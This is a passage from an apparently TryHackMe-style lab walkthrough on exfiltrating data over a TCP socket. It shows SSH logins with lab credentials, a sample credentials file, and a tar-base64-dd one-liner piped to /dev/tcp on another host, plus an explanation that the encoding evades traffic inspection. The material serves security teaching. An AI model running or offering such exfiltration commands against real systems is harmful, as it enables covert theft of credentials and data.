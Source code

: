 From the previous command, we used theÂ ncÂ command to receive data on portÂ 8080. Then, once we receive the data, we store it in theÂ /tmp/Â directory and call itÂ task4-creds.dataÂ as a filename.

Now let's connect to our victim machine that contains the data that needs to be transmitted using the following credential:Â thm:tryhackme. Note thatÂ to connect to theÂ victim1Â from the JumpBox, we can use the internal domain name as follows,


```markup
thm@jump-box$ ssh thm@victim1.thm.com
```

We can also connect directly from the AttackBox using portÂ 2022Â as follows,

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2022
```

We have the required data ready to be transmitted on the victim machine. In this case, we have a sample file with a couple of credentials.

Checking the creds.txt file on the victim machine  

```markup
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```

Now that we have the credential text file, we will use theÂ TCPÂ socket to exfiltrate it.Â **Make sure the listener is running on the JumpBox**.

Exfiltrate Data overTCPSocket from the victim machine!  

```markup
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

Let's break down the previous commandÂ and explain it:

1. We used theÂ tarÂ command to create an archive file with theÂ zcfÂ arguments of the content of the secret directory.
2. TheÂ zÂ isÂ for using gzip to compress the selected folder, theÂ cÂ is for creating a new archive, and theÂ fÂ is forÂ using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with theÂ ddÂ command using EBCDIC encoding data.
5. Finally, we redirect theÂ ddÂ command's output to transfer it using theÂ TCPÂ socket on the specified IP and port, which in this case, portÂ 8080.

Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.
